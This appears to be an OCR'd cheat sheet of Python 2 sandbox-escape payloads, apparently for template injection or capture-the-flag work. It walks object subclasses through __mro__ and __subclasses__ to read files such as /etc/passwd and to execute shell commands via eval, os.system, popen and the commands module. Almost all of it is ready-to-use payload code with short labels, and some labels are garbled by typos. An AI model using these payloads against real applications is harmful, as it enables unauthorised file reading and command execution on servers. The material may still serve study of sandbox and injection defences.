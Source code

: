 ```python
''.__class__.__mro__[2].__subclasses__().index(file)
```

- `flie` class: (get the parent class of `str` in the object type of the string, and find all its subclasses in its `object` parent class, the 41st is the `file` class)

```python
''.__class__.__mro__[2].__subclasses__()[40]('<File_To_Read>').read()
```

- `_frozen_importlib_external.FileLoader` class: (like the pre-query, it is the 91st class)

```python
''.__class__.__mro__[2].__subclasses__()[91].get_data(0,"<file_To_Read>")
```

- File Reading_Method 2_Parasing through Functions->Basic Class->Basic Class Subclass->Recent
Loading Class->Reference->Find Available Functions

```python
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['file']('/etc/passwd').read() #Modify read() to write() to write file
```

- Command execution_Method 1_Use `eval` for command execution

```python
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("whoami").read()')
```

- Command execution_Method 2_Use `warnings.catch_warnings` for command execution

```python
Check the location of the warnings.catch_warnings method
[].__class__.__base__.__subclasses__().index(warnings.catch_warnings)

View the location of linecatch
[].__class__.__base__.__subclasses__()[59].__init__.__globals__.keys().index('linecache')

Find the location of the os module
[].__class__.__base__.__subclasses__()[59].__init__.__globals__['linecache'].__dict__.keys().index('os')

Find the location of the system method (using os.open().read() here can achieve the same effect, the steps are the same, and no longer repeat it)
[].__class__.__base__.__subclasses__()[59].__init__.__globals__['linecache'].__dict__.values()[12].__dict__.keys().index('system')

Call the system method
[].__class__.__base__.__subclasses__()[59].__init__.__globals__['linecache'].__dict__.values()[12].__dict__.values()[144]('whoami')
```

- Command execution_Method 3_Use `commands` for command execution

```python
{}.__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['__import__']('commands').getstatusoutput('ls')

{}.__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['__import__']('os').system('ls')

{}.__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__.__import__('os').popen('id').read()
```
